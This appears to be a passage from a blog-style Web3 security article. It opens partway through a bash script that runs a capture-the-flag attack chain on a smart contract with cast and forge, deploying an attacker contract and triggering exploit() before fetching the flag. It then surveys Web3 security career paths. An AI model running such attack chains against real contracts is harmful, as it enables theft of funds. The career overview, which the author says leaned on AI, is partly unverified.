KEY=$(echo $JSON | jq -r .PrivateKey)
HACKER=$(echo $JSON | jq -r .Address)
TARGET=$(echo $JSON | jq -r .TargetAddress)

echo " RPC: $RPC"
echo " Hacker: $HACKER"
echo " Target: $TARGET"
echo " Key: $KEY"

# --- PHASE 2: PRE-CHECK ---
log "Phase 2: Baseline Metrics"
check_metrics

# --- PHASE 3: ATTACK CHAIN ---
log "Phase 3: Launching Attack"

# 3.1. Bait (Set Aggro)
AGGRO=$(cast call $TARGET "aggro()(address)" --rpc-url $RPC)
if [ "$AGGRO" != "$HACKER" ]; then
    cast send $TARGET "attack(uint256)" 0 --private-key $KEY --rpc-url $RPC > /dev/null
    success "Aggro Locked"
else
    success "Aggro Already Set"
fi

# 3.2. Deploy Weapon
OUT=$(forge create src/Attacker.sol:Attacker --private-key $KEY --rpc-url $RPC --broadcast --constructor-args $TARGET)
ATTACKER=$(echo "$OUT" | grep "Deployed to:" | awk '{print $3}')
success "Proxy Deployed: $ATTACKER"

# 3.3. Execute Kill
cast send $ATTACKER "exploit()" --private-key $KEY --rpc-url $RPC > /dev/null
success "Exploit Triggered"

# --- PHASE 4: VERIFICATION ---
log "Phase 4: Post-Exploit Metrics"
check_metrics

# Check Win Condition & Get Flag
FINAL_HP=$(cast call $TARGET "lifePoints()(uint256)" --rpc-url $RPC)

if [ "$FINAL_HP" == "0" ]; then
    FLAG=$(curl -s "$HOST/flag")
    echo -e "\n${GREEN}=============================================${NC}"
    echo -e "${GREEN} MISSION COMPLETED. FLAG CAPTURED.${NC}"
    echo -e "${GREEN} FLAG: $FLAG ${NC}"
    echo -e "${GREEN}=============================================${NC}"
else
    echo -e "\n${GREEN}[!] Exploit Failed.${NC}"
fi
```



## 3. Beyond Smart Contracts - A Big Picture of Web3 Security

Smart Contracts are just one layer in the Blockchain Tech Stack. If you don't like reading Solidity code, don't like pentesting, is there any other place for you in this industry? The answer is YES, and it's broader than you think. Below are the expanded **Career Paths** you can approach:

### 3.1 Protocol Security & Layer 1

-   **Target Audience:** Hardcore Backend Engineers (Go, Rust, C++), who like working with Distributed Systems, Network protocols.
-   **Web2 Mapping:** Similar to **Kernel/OS Security** or **Network Security**. You don't inspect application code, you inspect the code of the "Operating System" (Blockchain Client).
-   **Practical Work:**
    -   **Audit Node Clients:** Find bugs in Geth, Prysm (Ethereum) or Cosmos SDK. A small bug here can lead to the entire network suffering a **Chain Split**.
    -   **Consensus Attacks:** Attacking the consensus mechanism. Example: How to trick Validators into accepting a wrong block? How to spam the P2P network to paralyze nodes (DoS)?
-   **Challenge:** Requires extremely solid Computer Science foundation.

### 3.2 Off-chain & Infrastructure Security

A painful reality: Most billion-dollar hacks (like Ronin Bridge, CEXs) are not due to Smart Contract errors, but due to... **leaked Private Keys**.

-   **Target Audience:** DevOps Engineers, Cloud Security, System Admins, or NetSec professionals transitioning.
-   **Web2 Mapping:** Server Security, Cloud Hardening (AWS/GCP), Key Management.
-   **Practical Work:**
    -   **Key Management (KMS):** How to store Admin Private Keys securely? Designing architectures using **MPC (Multi-Party Computation)** or **HSM (Hardware Security Module)** so no single individual can unilaterally withdraw money.
    -   **Node Infrastructure:** Protecting RPC Nodes from DDoS. Protecting Validator servers (if this server is hacked, the hacker can get the validator fined - **Slashing**).
    -   **Bridge & Oracle:** Auditing intermediate servers (Relayers/Off-chain Workers). This is the fatal weak point ("Single Point of Failure") of many current systems.

### 3.3 Zero-Knowledge (ZK) Security - "Hard Mode"

Note: This field pays extremely high salaries but has a massive math barrier. This is the "real" Crypto we think of when hearing Blockchain.

-   **Target Audience:** Math lovers (Cryptography), Cryptographers, Research Engineers.
-   **Web2 Mapping:** Cryptography Research, Algorithm Design.
-   **Practical Work:**
    -   ZK-Rollups are the #1 Scaling trend (zkSync, Starknet). However, translating logic from code to mathematical circuits (**Circuits**) is very error-prone.
    -   **Circuit Auditing:** Reviewing circuits written in Circom, Halo2... to ensure hackers cannot generate Fake Proofs to withdraw money without detection.

### 3.4 On-chain Monitoring & Incident Response (Blue Team)

In Web3, when money is hacked, it moves on-chain immediately. This is a speed race between Hackers and the Rapid Response Team.

-   **Target Audience:** SOC Analysts, Threat Hunters, Forensics Investigators.
-   **Web2 Mapping:** SOC / Blue Teaming / Digital Forensics.
-   **Practical Work:**
    -   **Real-time Monitoring:** No longer static code audit, but monitoring the blockchain 24/7. Writing bots (using Forta Network, Tenderly) to catch strange signals: "Wallet A just drained Liquidity Pool B", "emergencyWithdraw function just called".
    -   **War Room:** When a protocol is hacked, you directly investigate the money flow (Tracing), contact parties (Circle, Tether, CEX) to freeze assets (Blacklist) before the hacker disperses them.

### 📝 Key Takeaway

Web3 Security is not just "finding bugs for money" (Bug Bounty); it is about building a safe financial foundation. Choose a niche based on your "Web2 Strength":

-   If you like **Logic & Finance** -> **Smart Contract Audit**.
-   If you like **System & Network** -> **Protocol Security**.
-   If you like **Infrastructure & Cloud** → **Infra Security**.
-   If you like **Math & Cryptography** -> **ZK Security**.
-   If you like **Defense & Operations** -> **Monitoring/Blue Team**.

Thank you for reading this far. I haven't been able to experience all the above sections myself and have referenced AI quite a bit, but this is the big picture I see, and I want you to see it too. Cheers!
